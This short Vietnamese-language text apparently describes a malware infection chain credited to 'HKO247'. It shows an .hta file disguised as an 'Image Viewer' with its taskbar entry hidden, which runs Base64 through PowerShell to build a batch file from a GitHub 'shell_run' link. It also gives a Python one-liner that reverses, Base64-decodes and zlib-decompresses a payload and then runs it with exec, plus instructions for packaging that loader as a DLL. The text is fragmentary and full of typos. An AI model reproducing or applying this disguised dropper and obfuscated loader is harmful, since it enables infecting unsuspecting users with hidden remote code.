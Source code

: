Code được giải mã bởi HKO247

Cách thức hoạt động:

1. Chương trình .hta mở Prossecess bằng Powsershell run đoạn Base64

<Dữ liệu trong *.hta>

<!DOCTYPE html>
<html>
<head>
    <title>Image Viewer</title>
     <hta:application
      border="none"
      maximizeButton="no"
      minimizeButton="no"
      scroll="no"
      showInTaskbar="no"
      windowState="normal">
    </hta:application>
    <body>
<!--Convert Base64 tạo bacth với endpoint https://github.com/hkoblack/Vietnamese-Buffalo/blob/concudaden/shell_run -->      
</body>
</head>
</html>


  2. Navite .dll từ code 
    https://github.com/hkoblack/Vietnamese-Buffalo/blob/concudaden/decode_concudaden.py
    Hoặc tạo *.dll  có dữ liệu 
    _ = lambda __ : __import__('zlib').decompress(__import__('base64').b64decode(__[::-1]))
exec((_)(b'"Đoạn base64 convert từ python mình gửi ở trên"'))
